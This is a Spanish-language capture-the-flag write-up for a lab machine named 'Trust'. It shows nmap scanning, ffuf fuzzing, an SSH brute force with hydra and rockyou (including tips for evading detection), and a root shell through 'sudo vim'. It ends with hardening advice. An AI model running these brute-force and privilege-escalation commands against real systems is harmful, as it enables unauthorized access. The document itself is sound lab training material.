### Informe de maquina *"Trust"*



Primero empezamos dando permisos de ejecución al archivo .sh



Ahora inicializamos el laboratorio



Abrimos una nueva pestaña o ventana de Terminal y realizamos un ping a la maquina y realizamos un escaneo de puertos con nmap.



Se identifican abiertos los puertos 22 de servicio ssh y el puerto 80 del servicio http.
Colocamos la dirección IP en un navegador para seguir investigando.



Ahora podemos buscar rutas ocultas dentro del servidor web, para ello usamos la herramienta ffuf.

```bash
ffuf -u http://172.18.0.2/FUZZ -w /usr/share/dirb/wordlists/common.txt -e .php,.html,.txt
```

🔹 Explicación de parámetros en FFUF:

- -u http://172.18.0.2/FUZZ → Define la URL objetivo con FUZZ como marcador de posición.
- -w /usr/share/dirb/wordlists/common.txt → Define la wordlist a usar.
- -e .php,.html,.txt → Extensiones de archivo a buscar.



Podemos observar que encontramos una página llamada secret.php, ingresemos la ruta al navegador.



De momento conseguimos el nombre de un posible usuario "mario", revisemos el código fuente para encontrar más detalles.



No encontramos muchos más detalles, intentaremos si podemos ingresar con el usuario "mario" con fuerza bruta.

Podemos hacer uso de la herramienta hydra y el worldlist "rockyou".

En mi caso al ser una maquina nueva este worldlist esta comprimido como rockyou.txt.gz así que usaremos el siguiente comando para descomprimirlo.

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Ahora podemos usar el comando hydra sin problema de la siguiente forma:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 10
```

🔍 Explicación de cada parte
- hydra	→ Ejecuta la herramienta Hydra, usada para ataques de fuerza bruta.
- -l mario → Especifica el usuario objetivo (mario).
- -P /usr/share/wordlists/rockyou.txt → Indica el archivo de wordlist con posibles contraseñas.
- ssh://172.18.0.2 → Especifica que el ataque será contra el servicio SSH en la IP 172.18.0.2.
- -t 10	Define 10 hilos para hacer el ataque más rápido.

📌 Opciones adicionales útiles
- Reducir la velocidad para evitar detección:
    - -t 5 → Usa solo 5 hilos.
    - -W 3 → Espera 3 segundos entre intentos.
- Guardar el resultado en un archivo:
    - -o resultado.txt → Guarda el resultado en un archivo.



Se ha detectado que la contraseña es "chocolate"


Vemos que podemos acceder y listamos que comandos podemos usar como sudo.

```bash
sudo -l
```



Vemos que podemos usar el binario /usr/bin/vim, podemos apoyarnos de la página (https://gtfobins.github.io/) para encontrar como aprovechar este binario y vulnerar la seguridad.





Vamos a usar la primera opción que nos ofrece para obtener una Shell con el comando:

```bash
sudo vim -c ':!/bin/sh'
```



---

🔴 ¿Cómo protegerse de ataques de fuerza bruta en SSH?

✅ Deshabilitar SSH para el usuario root en /etc/ssh/sshd_config.

✅ Usar autenticación por clave SSH en vez de contraseña (~/.ssh/authorized_keys).

✅ Limitar intentos de inicio de sesión con fail2ban o iptables.

✅ Cambiar el puerto SSH a uno no estándar.

---
🔴 ¿Cómo protegerse de escalado de privilegios en binarios como vim?

✅ Remueve vim de sudoers.

✅ Usa NOEXEC en visudo.

✅ Restringe el acceso del usuario con rbash.

✅ Asigna solo los comandos necesarios en sudo.